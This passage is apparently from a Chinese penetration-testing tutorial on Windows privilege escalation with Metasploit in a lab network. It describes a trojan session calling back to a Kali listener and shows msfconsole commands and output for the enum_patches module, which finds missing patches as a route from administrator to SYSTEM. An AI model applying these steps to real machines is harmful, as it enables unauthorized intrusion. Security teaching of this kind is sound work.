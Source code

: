 <img src="https://s2.loli.net/2023/03/16/Wmuj7D1NqY635x4.png" alt="image-20230316095121748" style="zoom: 80%;" />

#### 上线

当讲木马上传后，然后进行运行，即可在kali中显示上线选项，并自动反弹会话窗口，可以看到这里监听到192.168.10.150上线。

![image-20230316101217168](https://s2.loli.net/2023/03/16/DypGgncmQzSk6uT.png)

#### 查看权限

这里还是一样的获取到的权限是administrator，由于演示麻烦，未直接从webshell上执行，所以才会出现administrator的权限，但是不用管，我们需要的是将权限提升到system。

![image-20230316101235198](https://s2.loli.net/2023/03/16/9RlpJZ35WMknQT6.png)

### 半自动化提权操作

#### 提权模块

```
use post/windows/gather/enum_patches 半自动：根据漏洞编号找出系统中安装的补丁
```

#### 操作设置

这里半自动化，在获取后，还是需要手动去找，这里就和手动溢出漏洞提权差不多，所以这里就演示一下。

```
msf6 exploit(multi/handler) > use post/windows/gather/enum_patches   ##设置半自动提权
msf6 post(windows/gather/enum_patches) > options  ##查看参数

Module options (post/windows/gather/enum_patches):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(windows/gather/enum_patches) > set session 2  ##设置编号，也就是刚刚上线的编号。
session => 2
msf6 post(windows/gather/enum_patches) > run  ##开始收集

[*] Running module against ADMIN-PC (192.168.10.40)

Installed Patches
=================

  HotFix ID  Install Date
  ---------  ------------
  KB2534111  1/5/2023
  KB976902   11/21/2010

[*] Patch list saved to /root/.msf4/loot/20230316101403_default_192.168.10.40_enum_patches_978734.txt
[*] Post module execution completed

```
